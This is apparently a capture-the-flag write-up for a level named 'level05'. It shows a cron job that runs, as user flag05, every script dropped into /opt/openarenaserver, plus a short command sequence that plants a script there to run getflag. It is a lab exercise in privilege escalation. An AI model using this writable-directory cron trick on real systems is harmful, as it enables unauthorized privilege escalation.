 # Level05 Writeup
 
## Info
 
User level05 has nothing of interest in the home directory, which we can confirm with `ls -la`. Using `find / -type f -user flag05 2> /dev/null` finds the file `openarenaserver`

`openarenaserver`
``` bash
#!/bin/sh
 
for i in /opt/openarenaserver/* ; do
       (ulimit -t 5; bash -x "$i")
       rm -f "$i"
done
```
 
User level05 has also has mail in `/var/mail/level05` (found with `find / -name level05 -find f 2> /dev/null`):
```
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
 
## openarenaserver and mail

The file in `/var/mail` is a `cron` job that runs as `flag05`, executing `openarenaserver` every 2 minutes. Therefore we can create a script in `/opt/openarenaserver` that will call the `getflag`.
 
``` bash
echo "/bin/getflag > /var/mail/flag05" > /opt/openarenaserver/exploit.sh
chmod +x /opt/openarenaserver/exploit.sh
```
 
## Victory
Simply wait for the script to be executed, and then cat out the file at `/var/mail/flag05` to get the flag.
 
 

